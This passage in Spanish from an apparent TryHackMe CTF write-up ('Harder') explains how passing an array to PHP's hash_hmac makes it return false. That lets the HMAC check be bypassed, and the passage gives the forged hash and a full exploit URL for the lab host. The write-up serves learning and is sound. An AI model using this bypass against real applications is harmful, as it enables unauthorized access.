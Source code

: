 Además si se establece el parámetro n se crea un hash sha256 con los datos de n y el valor de $secret establecido en secrets.php. La variable $secret se utiliza luego de nuevp como llave que junto al valor de host crea otro hash sha256 que almacena en $hm. Finalmente si ese valor no es igual a n se devuelve un error 403.

Según un [post](https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up/) donde se explica el proceso exacto de como se puede explotar este código.

En este se explica que si pasamos un array en el parámetro n la función de hmac pasa a ser:

```php
$secret = hash_hmac('sha256',Array(),$secret)
```

Como espera un string y nosotros pasamos un array devuelve un aviso y false.

$Secret se establece en falso y como consecuencia el tercer parámetro también se establece en false y podemos hashear el parámetro host sin el valor de $secret.

![alt text](/assets/img/writeups/tryhackme/harder/image-9.png)

Por tanto si pasamos `n=[]` `host=test.com` y `h=0a857c7e169318a6e419f21c00dc6d9517da664749c1dfa93c7473738220e483` la comparación entre host y $hm devuelve true y tenemos acceso.

## Explotación 

El parámetro h es el hash sha256 de test.com, podemos calcularlo con la misma función que se utiliza en el código con esta herramienta [PHP Sandbox](https://onlinephp.io/)

```php
$hm=hash_hmac('sha256','test.com',false);
print($hm);
``` 

La url quedaría así `http://pwd.harder.local/index.php?n[]=1&host=test.com&h=0a857c7e169318a6e419f21c00dc6d9517da664749c1dfa93c7473738220e483`

![alt text](/assets/img/writeups/tryhackme/harder/image-10.png)

